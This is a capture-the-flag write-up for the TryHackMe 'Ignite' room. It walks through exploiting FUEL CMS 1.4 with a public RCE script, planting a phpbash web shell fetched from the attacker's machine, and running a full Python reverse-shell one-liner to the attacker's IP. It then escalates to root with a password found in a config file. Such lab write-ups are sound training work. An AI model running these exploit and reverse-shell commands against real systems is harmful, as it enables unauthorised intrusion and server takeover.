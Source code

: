 ```yaml
---
title: "Ignite"
tags: ['TryHackMe']
date: 2021-01-03
---
```


## Tools and Commands

- nmap
- searchsploit
- python
- netcat

## Recon

Start with an nmap scan: `$ sudo nmap -A -oA nmap 10.10.194.158`

The only open port is 80, a Apache/2.4.18 web server. View the web page in a browser and we find it's the default page for FUEL CMS 1.4, which also gives us some basic info about the CMS.

A quick Gobuster scan gives us nothing particularly useful: `$ gobuster dir -u http://10.10.194.158 -w /usr/share/wordlists/dirb/common.txt`

While Gobuster was running, read the CMS page. We find many config files are located in "fuel/application/config/" (such as database.php and config.php), and near the bottom it mentions a login page, /fuel, and gives default creds. Check the page and we can log in with them with full admin rights!

Browsing the Dashboard we find a few Upload areas. These could be promising.

## Exploit to Shell

Before going into that, start simply. Checking Searchsploit with `$ searchsploit fuel` gives us "fuelCMS 1.4.1 - Remote Code Execution". Sounds good. Copy it to our working directory with `$ searchsploit -m linux/webapps/47138.py`

Edit the file so the URL in the Python script matches the box script. You'll also need to make sure Burp Suite is open, and turn off Intercept; alternatively, remove the two references to the proxy in the script.

Then run the Python script (using Python 2, as the script is incompatible with Python 3 - `$ python 47138.py`). You'll be presented with a `cmd:` prompt. Try some things, such as `cmd:ls` and `cmd:whoami` to determine you're in - note you'll have to scroll up past the rubbish to get the actual result.

## Upgrade the Shell

This shell is horrible, though, so let's try and upgrade it. There is a browser-based php shell called phpbash, available at [https://github.com/Arrexel/phpbash/blob/master/phpbash.php](https://github.com/Arrexel/phpbash/blob/master/phpbash.php). Download the raw script to your machine with `wget`, set up a local server with `$ python3 -m http.server 4444`, then download the file to the remote machine using `cmd:wget <your-THM-IP>:4444/phpbash.php`. Then, in a browser, visit http://10.10.194.158/phpbash.php and you get a better shell.

We can further improve the shell by making it a Python one, using a script from [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). Change the script to include your IP, set up a netcat listener on your machine on port 4242 with `$ nc -lvnp 4242`, and when you run it (in the phpbash shell - it won't work in the `cmd` one) your netcat will give you a shell.

This is the Python reverse shell code: `www-data@ubuntu:/var/www/html#:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.83.23",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

This shell can be further upgraded, first by running `$ python3 -c 'import pty;pty.spawn("/bin/bash")'`, then `$ export TERM=xterm`, backgrounding this shell with Ctrl-Z, then `$ stty raw -echo; fg`. This gives us a nice, stable, interactive shell :)

## Get the user flag

Now we can get the first flag with `www-data@ubuntu:/var/www/html$ cat /home/www-data/flag.txt`. However, access to root (`$ ls /root`) is unsurprisingly denied.

## PrivEsc

We'll need to privesc. `$ sudo -l` and `$ sudo -i` gives us nothing, and there are no SUIDs found with `$ find / -perm -u=s -type f 2>/dev/null` 

Let's check the config files earlier, especially as one of them mentioned usernames and passwords. Change directory with `$ cd fuel/application/config`, and then search all the files for the phrase "password" using grep: `$ grep -ni password *`.

One result looks interesting, line 80 of "database.php": `database.php:80: 'password' => 'mememe',`.

`$ cat database.php` and have a read about line 80 - it suggests the password is for root!

Try it with `$ su root` and the password, and success! We get a `#` shell, and `# whoami` confirms we're root. 

## Get the root flag

Now simply `# cat /root/root.txt`.
